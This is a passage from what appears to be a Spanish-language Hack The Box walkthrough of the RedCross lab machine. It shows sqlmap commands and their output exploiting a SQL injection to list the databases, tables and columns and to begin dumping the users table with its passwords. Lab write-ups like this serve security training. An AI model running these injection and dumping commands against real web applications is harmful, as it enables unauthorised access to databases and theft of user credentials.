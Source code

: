 Como pudimos observar, es posible hacer una sqli dentro del servidor, por lo que omitiré la información de estatus centrándome en las salidas de sqlmap:

``` text
xbytemx@laptop:~/htb/redcross$ sqlmap -u "https://intra.redcross.htb/?o=1&page=app" --cookie="PHPSESSID=le7n8htqei4pg268v1bm1vqtq1; LANG=EN_US; SINCE=1552972200; LIMIT=10; DOMAIN=intra;" --tamper=space2comment --random-agent --dbs

[23:19:17] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 9.0 (stretch)
web application technology: Apache 2.4.25
back-end DBMS: MySQL >= 5.0
[23:19:17] [INFO] fetching database names
[23:19:21] [INFO] used SQL query returns 2 entries
[23:19:21] [INFO] retrieved: 'information_schema'
[23:19:22] [INFO] retrieved: 'redcross'
available databases [2]:
[*] information_schema
[*] redcross


xbytemx@laptop:~/htb/redcross$ sqlmap -u "https://intra.redcross.htb/?o=1&page=app" --cookie="PHPSESSID=le7n8htqei4pg268v1bm1vqtq1; LANG=EN_US; SINCE=1552972200; LIMIT=10; DOMAIN=intra;" --tamper=space2comment --random-agent -D redcross --tables

Database: redcross
[3 tables]
+----------+
| messages |
| requests |
| users    |
+----------+


xbytemx@laptop:~/htb/redcross$ sqlmap -u "https://intra.redcross.htb/?o=1&page=app" --cookie="PHPSESSID=le7n8htqei4pg268v1bm1vqtq1; LANG=EN_US; SINCE=1552972200; LIMIT=10; DOMAIN=intra;" --tamper=space2comment --random-agent -D redcross -T users --columns

Database: redcross
Table: users
[5 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| id       | int(11)     |
| mail     | varchar(30) |
| password | varchar(64) |
| role     | int(11)     |
| username | varchar(20) |
+----------+-------------+

xbytemx@laptop:~/htb/redcross$ sqlmap -u "https://intra.redcross.htb/?o=1&page=app" --cookie="PHPSESSID=le7n8htqei4pg268v1bm1vqtq1; LANG=EN_US; SINCE=1552972200; LIMIT=10; DOMAIN=intra;" --tamper=space2comment --random-agent -D redcross -T users -C id,mail,password,role,username --dump

Database: redcross
Table: users
[5 entries]
+----+------------------------------+--------------------------------------------------------------+------+----------+
| id | mail                         | password                                                     | role | username |
+----+------------------------------+--------------------------------------------------------------+------+----------+
```